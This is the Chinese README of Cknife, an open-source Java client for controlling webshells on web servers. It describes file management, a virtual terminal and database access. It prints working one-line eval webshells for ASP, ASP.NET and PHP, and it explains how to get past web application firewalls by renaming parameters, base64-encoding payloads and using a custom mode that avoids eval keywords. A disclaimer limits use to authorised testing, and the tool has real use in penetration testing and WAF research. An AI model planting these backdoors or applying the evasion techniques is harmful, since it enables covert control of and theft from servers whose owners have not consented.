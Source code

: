 ```yaml
---
project: Cknife
stars: 2436
description: |-
    Cknife
url: https://github.com/Chora10/Cknife
---
```


软件名称：Cknife
中文名称：C刀
源码地址：https://github.com/Chora10/Cknife
下载地址：http://pan.baidu.com/s/1nul1mpr  密码：f65g
官方博客：http://www.ms509.com/
作者：	  Chora && MelodyZX
----------------------------------------------------------------------------------------------------------
免责声明：
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
----------------------------------------------------------------------------------------------------------
为什么开发Cknife：
1、方便已被授权的渗透测试人员进行渗透测试；
2、方便WAF厂商提升自身WAF的防护能力；
3、方便管理员管理自身网站及服务器。
----------------------------------------------------------------------------------------------------------
为什么开源Cknife：
1、结合大众的力量优化完善本软件；
2、菜刀后门层出不穷，开源来接受大众的监督以及审计。
----------------------------------------------------------------------------------------------------------
理想：希望能在安全研究员以及WAF厂商的对抗中提升国内WAF的防护水平以及安全研究员的实力。
----------------------------------------------------------------------------------------------------------


一、运行环境：

安装了JRE1.7+环境的所有操作系统

二、文件说明：
------------------------------------------------------------------
Cknife.jar	Cknife主程序
------------------------------------------------------------------
Cknife.db	Cknife的数据库(不存在会自动生成)
Config.ini	Cknife的配置文件(不存在会自动生成)
ReadMe.txt	你现在正在看的(可删除)
1.jsp		JSP服务端脚本(可删除)
1.jspx		JSPX服务端脚本(可删除)
------------------------------------------------------------------

三、使用说明：

服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>

JSP:	    
[代码详见1.jsp]

JSPX:	    
[代码详见1.jspx]

Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。


四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。

五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Cknife数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。

自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：
User-Agent:xxx
Cookie:xxx
ms509:Chora
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。

六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。 
比如： 
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP_INDEX=...             		       显示主页功能的代码放这儿
PHP_READDICT=...      			       读取主页功能的代码放这儿
PHP_READFILE=...       			       读取文件功能的代码放这儿
PHP_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP_RETIME=...         			       修改时间功能的代码放这儿
PHP_NEWDICT=...        			       新建目录功能的代码放这儿
PHP_UPLOAD=...          		       上传文件功能的代码放这儿
PHP_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP_SHELL=...              		       虚拟终端功能的代码放这儿
PHP_DB_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP_...=...
ASPX_...=...
JSP_...=...

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。

换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。

Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符
CUS_MAKE=1 
CUS_INDEX=index 
CUS_READDICT=readdict 
CUS_READFILE=readfile 
CUS_SAVEFILE=savefile 
CUS_DELETE=delete 
CUS_RENAME=rename 
CUS_RETIME=retime 
CUS_NEWDICT=newdict 
CUS_UPLOAD=upload 
CUS_DOWNLOAD=download 
CUS_SHELL=shell

七、更新日志：(更新版本后请删除Config.ini文件，重新打开自动生成新版本的Config.ini)

程序在使用过程中难免有各种BUG，及时关注看一下是否有更新吧，说不定己经修补了呢。

已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Cknife，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Cknife，
但是这两种类型的皮肤进行切换就需要重启Cknife才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。

20160729
1、文件管理修复若干BUG
2、文件管理新增修改时间功能
3、文件管理优化界面

20160728
1、数据库管理修复若干BUG
2、数据库管理增加获取表行数
3、数据库管理优化界面

20160623
1、虚拟终端增加右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）
2、虚拟终端增加上键下键切换历史命令功能
3、数据库管理增加右键导出数据功能

20160622
1、修复ORACLE数据库连接失败的问题
2、修复在某分辨率下添加SHELL对话框里的密码文本框消失的问题
3、更新JSPX脚本

20160620
1、修复虚拟终端低概率执行失败的情况
2、数据库管理界面优化

20160618
1、添加对HTTPS协议的支持
2、修复文件管理右边栏遇到乱码不显示的情况

20160513
1、添加自定义请求头功能

20160511
1、添加设置选项并增加了代理功能
2、增加了对JSPX脚本的支持，连接时脚本类型选择JSP(Eval)

20160426
1、修复JSP连接MYSQL数据库异常的问题
2、虚拟终端增加自定义Cmd路径的功能，命令为setp [path]

20160413
1、添加自定义模式shell返回路径的自定义分隔符
2、添加JSP对MSSQL的支持

20160318
1、优化界面，右边栏点击目录后左边栏也会选中
2、修复ASP、ASPX、JSP在打开空目录时会失败的问题
3、将默认皮肤Graphite添加到皮肤切换功能
4、虚拟终端增加标识符方便用户分辨
5、数据库部分功能增加多线程

20160317
1、优化文件管理左边栏的打开方式
2、文件管理所有功能使用多线程，防止高延迟请求界面会卡的情况发生

20160316
1、修复在Linux下默认皮肤显示乱码的问题
2、添加ASPX对MSSQL、ACCESS的支持
3、更换皮肤解决选中后看不清的情况

20160314
1、添加ASP对MSSQL、ACCESS的支持
2、修复中文路径启动失败的问题

20160311
1、修复模拟终端若干BUG；
2、模拟终端使用多线程，防止高延迟请求界面会卡的情况发生

20160310
1、添加JSP对MYSQL、ORACLE的支持
2、修复在Windows下，文件管理会多出一个盘符

20160307
1、连接失败返回详细信息，方便用户分析问题

20160301
1、合并Cknife与Cknife_Skin
2、添加数据库功能，添加PHP对MYSQL的支持
